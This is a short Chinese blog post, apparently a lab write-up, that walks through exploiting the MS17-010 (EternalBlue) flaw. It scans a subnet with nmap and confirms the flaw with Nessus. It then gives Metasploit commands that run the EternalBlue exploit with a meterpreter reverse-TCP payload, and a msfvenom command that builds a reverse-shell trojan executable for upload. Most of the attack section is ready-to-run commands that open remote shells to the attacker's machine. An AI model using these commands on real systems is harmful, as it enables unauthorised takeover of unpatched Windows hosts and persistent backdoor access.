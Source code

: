 ```yaml
---
layout: post
title:  ms17_010漏洞利用(永恒之蓝)
date: 2021-06-23 19:02 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 探测内网主机](#0x0-探测内网主机)
- [0x1 nessus扫描](#0x1-nessus扫描)
- [0x2 msf进行利用](#0x2-msf进行利用)
- [0x3 制作木马进行上传](#0x3-制作木马进行上传)

<!-- /TOC -->
## 0x0 探测内网主机

`nmap -ss -v 192.168.153.0/24`  
![](/images/20210623-1.png)

## 0x1 nessus扫描

`发现存在ms17-010漏洞`
![](/images/20210623-2.png)

## 0x2 msf进行利用

```c
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost 192.168.153.128
set lhost 192.168.153.1
set lport 9991
run
```
![](/images/20210623-3.png)

## 0x3 制作木马进行上传

```c
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.153.1 lport=9992 -f exe >shell.exe
```
![](/images/20210623-4.png)

**之后可以实现后续控制**